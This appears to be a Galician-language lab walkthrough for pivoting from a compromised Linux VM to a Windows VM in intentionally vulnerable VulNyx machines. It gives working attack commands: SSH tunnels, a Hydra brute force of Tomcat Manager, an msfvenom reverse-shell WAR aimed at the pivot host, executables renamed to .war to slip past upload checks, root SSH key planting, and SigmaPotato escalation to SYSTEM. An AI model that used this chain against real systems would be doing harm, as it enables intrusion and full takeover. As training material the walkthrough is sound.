


Pivoting Linux → Windows
Escenario de Pivoting Basic → War
Para realizar esta práctica é necesario modificar a configuración de rede das máquinas virtuais en VirtualBox.

Configuración do Escenario (Montaxe)
Antes de iniciar as máquinas, debemos configurar as tarxetas de rede no hipervisor (VirtualBox).
1. Configuración de VirtualBox
Máquina Atacante (Kali Linux):
-
Adaptador 1: Rede Host-Only (Anfitrión) →
vboxnet0- IP esperada:
192.168.56.X - Obxectivo: Punto de entrada do atacante. Debe ter conectividade coa máquina pivote.
- IP esperada:
Máquina Pivote (VulNyx Basic — Linux):
-
Adaptador 1: Rede Host-Only (Anfitrión) →
vboxnet0- Obxectivo: Ser alcanzable dende Kali unha vez comprometida.
-
Adaptador 2: Rede Host-Only (Anfitrión) →
vboxnet1- Obxectivo: Acceder a unha segunda rede que Kali non pode alcanzar directamente (rede de pivoting).
- Nota (VirtualBox): ao crear
vboxnet1, VirtualBox adoita asignarlle por defecto a rede192.168.57.0/24(por exemplo, o host queda en192.168.57.1). - Nota (laboratorio): Aínda activando o servidor DHCP de
vboxnet1(no Host Network Manager → separador Servidor DHCP) non é posible que Basic obteña IP automaticamente sen modificar a OVA. Así unha vez conseguidorooten Basic debemos executar os seguintes comandos para que esta NIC recolla configuración de rede.
Agora, a partir deste reinicio o sistema sempre recoñecerá a configuración de rede das 2 NIC. (Lembrar voltar a facerse# sed -i -e 's/ens33/enp0s8/' -e 's/allow-hotplug enp0s8/auto enp0s8/' /etc/network/interfaces # /sbin/reboot -frooten Basic para proseguir coa práctica).
Máquina Obxectivo (VulNyx War — Windows):
-
Adaptador 1: Rede Host-Only (Anfitrión) →
vboxnet1- Obxectivo: Estar illada do mundo exterior e só accesible a través da máquina pivote (Basic).
- Nota: se
vboxnet1ten DHCP activo, War obterá unha IP192.168.57.Xautomaticamente. A IP exacta descúbrese dende Basic tras o compromiso (ARP / ping).
Introducción ao Reto
O obxectivo deste escenario é...
- Compromiso inicial da máquina Linux (Basic) como punto de apoio
- Identificación dunha rede interna non accesible directamente dende Kali (
vboxnet1) - Análise da rede interna dende Basic, superando as limitacións de escaneo
- Configuración de túneles SSH (Local e Remote Port Forwarding)
- Movemento lateral dende Basic → War mediante explotación remota
- Transferencia de ferramentas evasiva e escalada de privilexios
Mapa de vectores de ataque
-
Kali compromete a máquina Basic (Linux) (enumeración → acceso inicial → escalada a root)
-
Basic actúa como máquina pivote (descubrimento da rede 192.168.57.0/24 + configuración de SSH)
-
Kali, a través de SSH Tunneling, ataca a máquina War (Windows) (enumeración de servizos → explotación de Tomcat → shell reversa túnelizada → escalada)
Diagrama de ataque

Fase 1 — Recopilación (Compromiso Previo e Descubrimento Interno)
Premisa: Seguindo os pasos do documento Basic, xa comprometemos a máquina Basic e temos unha shell como root.
Paso 1.1: Enumeración de Interfaces en Basic
Dende a nosa shell en Linux (Basic), verificamos se existe unha segunda tarxeta de rede.
NOTA: No caso de non existir unha segunda NIC revisar o comentado no apartado Configuración de VirtualBox
Saída relevante:
IP das máquinas virtuais
No caso de execución deste procedemento a IP da máquina:
- Kali Linux foi: 192.168.56.113
- Basic foi: NIC1 → 192.168.56.208 e NIC2 → 192.168.57.7
- War foi: 192.168.57.5
, pero no voso caso pode variar. Tédeo en conta para o seguimento desta práctica.
Descubrimento: Existe unha rede 192.168.57.0/24 illada de Kali.
Paso 1.2: Descubrimento de Veciños (Host Discovery)
Buscamos máquinas vivas nesa rede interna dende Basic.
# Ping sweep con bash
root@basic:~# for i in {1..254}; do (ping -c 1 192.168.57.$i | grep "bytes from" &); done
Obxectivo Identificado:
64 bytes from 192.168.57.5 ... (Máquina War).
Fase 2 — Análise (Configuración de Túneles e Enumeración)
Nesta fase empregaremos exclusivamente SSH Tunneling.
Paso 2.1: Preparación do entorno SSH en Basic (CRÍTICO)
Necesitamos configurar Basic para aceptar conexións SSH de root (para crear túneles) e activar GatewayPorts (para as shells reversas da Fase 3).
1. En Kali: Xerar e ler a chave pública
# Xerar se non existe, sen passphrase
kali@kali:~$ ssh-keygen -t rsa -f ~/.ssh/id_rsa -N ""
# Ler para copiar
kali@kali:~$ cat ~/.ssh/id_rsa.pub
ssh-rsa AAAAB3Nza... kali@kali
2. En Basic: Autorizar a chave e configurar SSHD
# Crear directorio e engadir chave
root@basic:~# mkdir -p /root/.ssh
root@basic:~# echo "PEGA_AQUI_A_TUA_ID_RSA_PUB" >> /root/.ssh/authorized_keys
root@basic:~# chmod 600 /root/.ssh/authorized_keys
# Configurar SSHD
root@basic:~# echo "PermitRootLogin yes" >> /etc/ssh/sshd_config
root@basic:~# echo "GatewayPorts yes" >> /etc/ssh/sshd_config
root@basic:~# systemctl restart ssh
Paso 2.2: Dynamic Port Forwarding (Proxy SOCKS)
Creamos un túnel dinámico para ter visibilidade sobre a rede 192.168.57.0/24.
Dende Kali:
# -D 1080: Crea un proxy SOCKS no porto 1080
# -f -N: Executa en segundo plano sen abrir shell
ssh -f -N -D 1080 root@192.168.56.208
Configurar /etc/proxychains4.conf para usar socks5 127.0.0.1 1080 e comentar calquera outra liña.
Paso 2.3: Enumeración de Portos (Método Netcat)
Problemas con Nmap e SOCKS
O uso de Nmap a través de proxies SOCKS adoita fallar por temas de timeouts e latencia, dando falsos negativos (todo filtered). A mellor práctica é usar Netcat para descubrir portos abertos e logo facer túneles fixos.
Script de descubrimento rápido dende Kali:
for port in 135 139 445 3389 8080; do
echo -n "Porto $port: "
proxychains nc -z -w 1 192.168.57.5 $port 2>/dev/null && echo "ABERTO" || echo "PECHADO"
done
Resultado:
- Porto 8080 (HTTP) → ABERTO
- Porto 445 (SMB) → ABERTO
Paso 2.4: Local Port Forwarding (Acceso Estable)
Agora que sabemos os portos, traémolos ao noso Kali para traballar con ferramentas nativas sen restricións de proxy.
Dende Kali (nova terminal):
# -L: Redirixe porto local a destino remoto
ssh -f -N -L 8080:192.168.57.5:8080 -L 4450:192.168.57.5:445 root@192.168.56.208
Paso 2.5: Enumeración de Servizos (Tomcat)
Agora atacamos ao noso localhost, o que garante estabilidade.
1. Escaneo de versións con Nmap (Local):
2. Navegación web:
Acceder a http://localhost:8080 (Tomcat) e tentar entrar en /manager/html. Pide credenciais.
Fase 3 — Explotación (Movemento Lateral cara a Windows)
Paso 3.1: Forza Bruta contra Tomcat Manager
Aproveitando o túnel local (localhost:8080), lanzamos Hydra.
hydra -L /usr/share/wordlists/metasploit/tomcat_mgr_default_users.txt \
-P /usr/share/wordlists/metasploit/tomcat_mgr_default_pass.txt \
localhost -s 8080 http-get /manager/html
Resultado: admin:tomcat
Paso 3.2: Configuración do Túnel Reverso (Remote Port Forwarding)
Para recibir a shell reversa en Kali, necesitamos que Basic faga de ponte.
Dende Kali:
# -R: Escoita na IP interna de Basic (192.168.57.7) e reenvía a Kali
ssh -f -N -R 192.168.57.7:443:127.0.0.1:443 root@192.168.56.208
Paso 3.3: Creación do Payload
Importante: O LHOST debe ser a IP de Basic na rede interna.
# LHOST: 192.168.57.7 (Onde escoita o túnel -R)
# LPORT: 443 (Porto tunelizado)
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.57.7 LPORT=443 -f war -o shell.war
Paso 3.4: Deploy e Obtención de Shell
Importante: Tomcat adoita bloquear as subidas con curl debido á protección CSRF (Erro 403). Usaremos o navegador a través do túnel para evitalo.
1. Poñer listener en Kali:
2. Subir WAR malicioso (vía Navegador):
- Abre Firefox en Kali.
- Visita http://localhost:8080/manager/html.
- Loguéate con admin:tomcat.
- Busca a sección "WAR file to deploy".
- Selecciona o teu ficheiro shell.war e preme Deploy.
3. Executar Payload:
Unha vez despregado, aparecerá na lista de aplicacións como /shell.
- Fai clic na ligazón /shell no navegador ou visita http://localhost:8080/shell/.
Resultado en Kali:
listening on [any] 443 ...
connect to [127.0.0.1] from [127.0.0.1] ...
C:\Program Files\Apache Software Foundation\Tomcat 11.0>whoami
nt authority\local service
Fase 4 — Post-explotación (Escalada de Privilexios)
O usuario local service ten permisos de escritura moi limitados. Ademais, o antivirus adoita borrar ferramentas de hacking.
Aproveitaremos que Tomcat ten permisos de escritura en webapps e que o navegador (GUI) é o método máis fiable para subir ficheiros sen erros de CSRF.
Paso 4.1: Enumeración de Privilexios
Paso 4.2: Transferencia de Ferramentas (Método "Fake WAR")
Renomearemos os executables a .war para subilos a través do xestor de Tomcat.
1. En Kali: Preparar ficheiros
cp /usr/share/windows-resources/binaries/nc.exe .
wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe
# Renomear a .war para enganar ao xestor de subidas
mv SigmaPotato.exe potato.war
mv nc.exe nc.war
2. En Kali: Subir ficheiros (vía Navegador)
Igual que na Fase 3, usamos Firefox en http://localhost:8080/manager/html:
- Sube potato.war → Deploy.
- Sube nc.war → Deploy.
3. En War: Recuperar executables
Tomcat gardou os ficheiros en webapps (e probablemente fallou ao descomprimilos, pero o ficheiro orixinal queda alí).
cd "C:\Program Files\Apache Software Foundation\Tomcat 11.0\webapps"
move potato.war SigmaPotato.exe
move nc.war nc.exe
Paso 4.3: Explotación con SigmaPotato
Necesitamos un novo túnel para recibir a shell de SYSTEM (ex: porto 5555).
1. En Kali: Túnel Reverso para SYSTEM shell.
2. En Kali: Listener.
3. En War: Executar Exploit.
Resultado: Shell como nt authority\system.
Paso 4.4: Obtención de Flags
Correspondencia de Fases → MITRE ATT&CK — Pivoting Scenario
Fase 1 — Recopilación
| Acción / Resumo | Vector principal | MITRE ATT&CK (IDs) | CWE(s) (relevantes) |
|---|---|---|---|
| Descubrimento de segunda interface en Basic (ip addr) | Host Networking Discovery | T1016 — System Network Configuration Discovery | CWE-200 — Information Exposure |
| Ping dende Linux (Basic) cara a War | Network Service Scanning | T1046 — Network Service Discovery T1018 — Remote System Discovery |
CWE-200 — Information Exposure |
| Identificación de host activo (192.168.57.5) | Remote System Discovery | T1018 — Remote System Discovery | CWE-200 — Information Exposure |
Fase 2 — Análise
| Acción / Resumo | Vector principal | MITRE ATT&CK (IDs) | CWE(s) (relevantes) |
|---|---|---|---|
| Configuración de GatewayPorts en SSH (Basic) | SSH Configuration Modification | T1562 — Impair Defenses | N/A |
| SSH Local Port Forwarding (Acceso a servizos) | SSH Tunneling | T1572 — Protocol Tunneling T1021.004 — Remote Services: SSH |
N/A |
| Enumeración de Tomcat (porto 8080 vía túnel) | Service Enumeration | T1046 — Network Service Discovery | CWE-200 — Information Exposure |
Fase 3 — Explotación
| Acción / Resumo | Vector principal | MITRE ATT&CK (IDs) | CWE(s) (relevantes) |
|---|---|---|---|
| Forza Bruta Tomcat Manager (vía túnel local) | Password Guessing / HTTP | T1110 — Brute Force T1110.001 — Brute Force: Password Guessing |
CWE-521 — Weak Password Requirements |
| Creación de payload WAR con msfvenom | Malware Generation | T1587.001 — Develop Capabilities: Malware | N/A |
| Deploy de WAR malicioso en Tomcat | Exploit Public-Facing Application | T1190 — Exploit Public-Facing Application | CWE-434 — Unrestricted Upload of File with Dangerous Type |
| Obtención de shell reversa (SSH Remote Forwarding) | Command and Control / Proxy | T1090 — Proxy T1090.002 — Proxy: External Proxy |
N/A |
Fase 4 — Post-explotación
| Acción / Resumo | Vector principal | MITRE ATT&CK (IDs) | CWE(s) (relevantes) |
|---|---|---|---|
| Enumeración de privilexios (whoami /priv) | Process Privilege Discovery | T1069 — Permission Groups Discovery | CWE-200 — Information Exposure |
| Transferencia de ferramentas (Fake WAR Upload) | Ingress Tool Transfer | T1105 — Ingress Tool Transfer | N/A |
| Explotación de SeImpersonatePrivilege con SigmaPotato | Token Impersonation | T1134 — Access Token Manipulation T1134.001 — Access Token Manipulation: Token Impersonation/Theft |
CWE-269 — Improper Privilege Management |
| Obtención de shell de SYSTEM | Privilege Escalation | T1068 — Exploitation for Privilege Escalation | CWE-269 — Improper Privilege Management |
| Lectura de flags (user.txt, root.txt) | Data from Local System | T1005 — Data from Local System | N/A |
Resumo e Conclusións
Neste escenario de pivoting Linux → Windows aprendemos leccións vitais de pivoting avanzado:
- Fiabilidade de Ferramentas: Nmap pode fallar en túneles SOCKS; Netcat é o mellor aliado para validar conectividade.
- Pivoting Nativo: Usar SSH Tunneling puro (
-L,-R,-D) elimina a necesidade de subir binaries extra á máquina pivote e mantén o tráfico cifrado. - Abuso de Funcionalidades: Cando hai restricións de seguridade (CSRF, antivirus), usar a GUI a través dun túnel e o mecanismo de despregamento do servidor (Fake WAR) é a técnica máis robusta.
Recordatorio Pivot
- SSH -L (Local): Trae un porto remoto ao teu Kali (Ideal para atacar web, RDP, SMB).
- SSH -R (Remote): Leva un porto do teu Kali á rede remota (Ideal para recibir shells e servir ficheiros).
- Lembra sempre configurar
GatewayPorts yesno/etc/ssh/sshd_configdo pivote se necesitas que terceiras máquinas (War) se conecten ao túnel.